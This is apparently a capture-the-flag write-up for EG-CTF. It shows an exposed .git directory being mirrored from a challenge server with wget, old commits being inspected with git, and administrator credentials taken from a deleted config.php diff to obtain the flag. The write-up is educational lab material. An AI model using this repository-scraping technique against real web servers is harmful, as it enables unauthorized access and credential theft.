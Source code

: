 # EG-CTF
# Write-Up
# 1-Tamp3rat0r
I have check the site and They asked me about username and password and by guess seems like http authentication bypass
and worked. check Tamp3rat0r.py
# 2-Hold Up
i test it with DWP and i found /.git path working and i download the directory
root@cloudshell:~$ wget --recursive --no-parent http://172.105.76.128/.git/
root@cloudshell:~$ ls
172.105.76.128  
root@cloudshell:~$ cd 172.105.76.128/
root@cloudshell:~/172.105.76.128$ ls -a
.  ..  .git
root@cloudshell:~/172.105.76.128$ cd .git/
root@cloudshell:~/172.105.76.128/.git$ ls
branches        config       HEAD   index       index.html?C=D;O=A  index.html?C=M;O=A  index.html?C=N;O=A  index.html?C=S;O=A  info  objects
COMMIT_EDITMSG  description  hooks  index.html  index.html?C=D;O=D  index.html?C=M;O=D  index.html?C=N;O=D  index.html?C=S;O=D  logs  refs
// let's check the commits
root@cloudshell:~/172.105.76.128/.git$ git reflog
2e3e1a8 HEAD@{0}: commit: Refining
89329fa HEAD@{1}: commit: NewFeature
dfecece HEAD@{2}: commit: Addinfo
b032cf8 HEAD@{3}: commit: Disable
5b9e491 HEAD@{4}: commit: DelCr
457168f HEAD@{5}: commit: AddUsetting
b55d897 HEAD@{6}: commit: editconf
70ae358 HEAD@{7}: commit (initial): initials
// i have check this commits one by one and i found 
root@cloudshell:~/172.105.76.128/.git$git show 2e3e1a8
commit 2e3e1a8c124768ecbb31e92d5c070003924b9254
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:18:26 2019 +0100

    Refining

diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php
index 3d7f801..706d93b 100644
--- a/S3cR3tPaTh/config.php
+++ b/S3cR3tPaTh/config.php
@@ -420,15 +420,6 @@ $CONFIG = array(
 'overwriteprotocol' => '',

 /**
- * Override webroot
- * ownCloud attempts to detect the webroot for generating URLs automatically.
- * For example, if `www.example.com/owncloud` is the URL pointing to the
- * ownCloud instance, the webroot is `/owncloud`. When proxies are in use, it
- * may be difficult for ownCloud to detect this parameter, resulting in invalid URLs.
- */
-'overwritewebroot' => '',
-
-/
   Override condition
   This option allows you to define a manual override condition as a regular
   expression for the remote IP address. The keys `overwritewebroot`,
// this show us the path of admin log in is /S3cR3tPaTh/
root@cloudshell:~/172.105.76.128/.git$git show 5b9e491
commit 5b9e491802d53d6af1ef25206ccb0765b64a248b
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:15:11 2019 +0100

    DelCr

diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php
index 46ed4f3..72e9842 100644
--- a/S3cR3tPaTh/config.php
+++ b/S3cR3tPaTh/config.php
@@ -194,7 +194,7 @@ $CONFIG = array(
 'knowledgebaseenabled' => true,

 /**
- * Enables or disables avatars or user profile photos
+ /* Enables or disables avatars or user profile photos
  * `true` enables avatars, or user profile photos, `false` disables them.
  * These appear on the User page, on user's Personal pages and are used by some apps
  * (contacts, mail, etc).
@@ -469,15 +469,7 @@ $CONFIG = array(



-
- Admin Credentials
-
-'Admin_Login' => 'Administrator'
-'Admin_Password' => 'FN3ym@bZNaF&'

/////////////////////////////////////////////////////////////////
admin = Administrator
password = FN3ym@bZNaF&
after i try it #flag : EGCTF{Co0o0o0L_I_g0t_Th3_R3p0}
sorry if something it's not clear
//////////////////////////////////////////////////////////////////
